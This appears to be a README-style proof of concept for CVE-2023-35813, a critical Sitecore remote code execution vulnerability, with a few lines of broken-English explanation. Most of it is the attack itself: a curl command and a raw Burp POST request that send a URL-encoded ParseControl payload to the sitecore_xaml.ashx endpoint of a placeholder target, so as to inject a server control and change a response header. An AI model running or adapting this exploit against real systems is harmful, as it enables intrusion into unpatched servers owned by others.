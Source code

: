 CVE: 2023-35813
CVSS Score: 9.8
Severity: Critical 

Here we are going to give command like return HTTP header  response back like -

My Request -

content-type: admin

Response should be -

content-type: admin

Remote Code Execution 


#poc
- cmd 
`curl --data '__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E")'http:// <target> /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index -v`


#poc
burp

POST /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index HTTP/2
Host:  <target> 
Content-Type: application/x-www-form-urlencoded
Content-Length: xxx


__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E
